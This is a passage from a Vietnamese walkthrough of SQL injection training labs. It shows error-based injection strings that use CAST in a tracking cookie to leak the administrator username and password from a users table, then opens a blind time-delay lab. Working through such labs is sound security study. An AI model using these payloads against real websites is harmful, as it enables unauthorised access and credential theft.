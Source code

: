 Như vậy ta chỉ có thể lấy ra 1 user trong 1 lần truy vấn ta có thể thử:

' AND 1=CAST((SELECT username FROM users AS INT WHERE username='administrator')—

![](Images/image58.png)

Nhưng do query quá dài nên không thể thực hiện dù đã xóa hết trackingid nên ta sẽ dùng query:

' AND 1=CAST((SELECT username FROM users LIMIT 1) AS INT)—

![](Images/image59.png)

Khi đó ta biết được username đầu tiên là administrator, vậy ta sẽ lấy pass bằng:

' AND 1=CAST((SELECT password FROM users LIMIT 1) AS INT)--

![](Images/image60.png)

![](Images/image61.png)

# Lab14: Blind SQL injection with time delays

Trong lab này ta sẽ Blind SQLi tại phần tracking cookie. Không có SQL query nào được hiển thị lại và không có phản hồi query nếu có trả về dòng nào, gây ra lỗi thì web page sẽ không có thông báo lỗi. Để hoàn thành lab cần làm máy chủ delay 10s
